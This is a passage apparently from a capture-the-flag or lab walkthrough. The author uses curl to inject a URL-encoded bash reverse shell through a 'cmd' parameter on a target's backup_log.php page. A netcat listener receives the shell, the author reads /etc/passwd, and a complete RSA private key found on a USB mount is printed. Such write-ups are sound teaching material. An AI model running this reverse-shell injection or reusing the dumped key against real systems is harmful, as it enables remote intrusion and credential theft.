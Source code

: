     root@kali:~/Desktop# curl "http://192.168.2.120/logs/backup_log.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.2.240%2F443%200%3E%261"
    
    
    ------------------------------Terminal 1------------------------------ 
    
    
    root@kali:~/Desktop# nc -nvlp 443  
    listening on [any] 443 ...  
    connect to [192.168.2.240] from (UNKNOWN) [192.168.2.120] 42663  
    bash: no job control in this shell  
    bash-3.1$ hostname  
    slax  
    bash-3.1$ tail /etc/passwd  
    sshd:x:33:33:sshd:/:/bin/false  
    gdm:x:42:42:GDM:/var/state/gdm:/bin/bash  
    apache:x:80:80:User for Apache:/srv/httpd:/bin/false  
    messagebus:x:81:81:User for D-BUS:/var/run/dbus:/bin/false  
    haldaemon:x:82:82:User for HAL:/var/run/hald:/bin/false  
    pop:x:90:90:POP:/:/bin/false  
    nobody:x:99:99:nobody:/:/bin/false  
    hbeale:x:1001:10:,,,:/home/hbeale:/bin/bash  
    jgreen:x:1002:10:,,,:/home/jgreen:/bin/bash  
    logs:x:1003:100:,,,:/tmp:/bin/bash  
    bash-3.1$ 

  
After some poking around I found a directory containing an RSA key.  
  

    
    
    bash-3.1$ ls -al  
    total 8  
    drwxrwxrwx 2 root root   80 Jun  6  2012 .  
    drwxrwxrwx 3 root root   80 Jun 19  2012 ..  
    -rwxrwxrwx 1 root root  393 Jun  2  2012 authorized_keys  
    -rwxrwxrwx 1 root root 1675 Jan  5  2008 id_rsa  
    bash-3.1$ pwd  
    /media/USB_1/Stuff/Keys  
    bash-3.1$ cat id_rsa  
    -----BEGIN RSA PRIVATE KEY-----  
    MIIEoQIBAAKCAQEA1pfb/CVukUw4Xe67YLEZzVHWNax0zJjI1CfcsoEGylmmtlA6  
    iXHi41nLshzXu9n536JfM9LFAWGqefBVX7Bzd/fC4+jHS3q89IK9FP7gFPwEmlNH  
    CwPX0ADxDFyB1lJOFffJ9gVw3VgHCaCPgS70UqJD0hZFDMSDMoBa91PylFQR0m58  
    nMq8DsGRbeC5hTdpLXKfBuW8v/lFuNEWVWNcZDie82aiJg8WRUUIrzeGZSR3+cG1  
    hi6za67VIi+ce8fFuBvIgaEpvJ0JSIX7zPLUV10ezW1NQRNplKSam3TIYI3+Ywuh  
    lcgpEyliHYReN6v91+um2c6LNy9y/vx2Akci5QIBIwKCAQEAvhF5s3GcchBPLqA/  
    kCfVBk/MW2zcerM1iLWXlsoNVCOFB+Co4CMKyV4pcd8IOKsfJSlqQ9fwUa5GiUKU  
    wne2urbf0S1CzdMcY4m9al4W7gPJkACeAnEeO+OTq9zoBvhxDCSc79ju7+7hqXD0  
    IfZjXyIBjjD7VHOKJWpfMtVTMunBCMqoAMa2veuN6LgDJweQNi7kon4qcj4SghGI  
    bdBv/Cnk7PMkG+DhafTRWyXGMWFpTHV4BNKv0i+k4lVV1oP9nJnh9jglY4EkD9LD  
    0Yt2QZt+XMTlxScsjcBpVGc9m4ZrgmRZGV0PTyMuWJtURkDBYPizkiPjjSZfUbyZ  
    y9QECwKBgQDsR9wLzrQbJIaOX8dG4rEt8pQHdYK7KCM8Bcq45iKKPzeLxchguM3o  
    +y9nRz5x8RWXWZUMl7PldoqwmrKh6WVCrdJ7mghPTYx3Djhcaf8q5XFTUhZH4xhB  
    72g1H6+JCECUjAFfjoSTOEswCFKYssgYA22x3fvLGg3S8f0UjjE1xQKBgQDogKVg  
    iyXCE833evccfrd/otsyVcxNincunAtYDAsqa2ZrjXL3oFwNwfC1CVKPhqDlnG46  
    M1tiSeYXygPbuPbHzRdu0ZuG7jRxxVdndl52gq/Zt8MKNRD9mdbFRcRMXmMRfaE4  
    RXdry9eB4rPywfWgJPGNVtOFZP6PRVv+IpoqoQKBgBRArHYKZzWGybRunA1j400U  
    ytwRYvoZYhsWcHY/nI+Bwu65Lm6wwTE6GgGJw4Yb+olQ0kLoboFh7qFsWHRHNJCv  
    0DZ66sT4BLm/Y+qp/+275SRmHyq7sZ9AaASNr/XNgeDYzOru9Wu0XjdRK6awPQlf  
    YSyAvc+UhNeRFbFOBDfPAoGAVlurI9vpc/i6N1mO+/SNTKo0KKOGZfGZ+16H3t/m  
    496/pEp7KMaIl2VKxuY0m7WpedsEXsKeSRQiQ1mpqWH1QuXG4AS2HCyXIvGG3Uk5  
    B3JekrH3/HocQO//UJZBmLVX/y6pmI7UlcC9wodnaMuzAPfHbwL+G5qKb7qtI+D3  
    busCgYATj4y+8msxNWRRNbHWAV7G0OurPDeZJ8F8NDLpM22X8fM08wgGRwkW4fpa  
    A+J8tN2ibiDqw29W6Rc1/4evAPbo3GR932W/ELOTOpP2yquiwoSxPG+HCLHmDITr  
    1qGHJRSOiFzo99iS5aQRhUvdl3M0lz1Cort7hjRKUkSWcT02Rw==  
    -----END RSA PRIVATE KEY-----  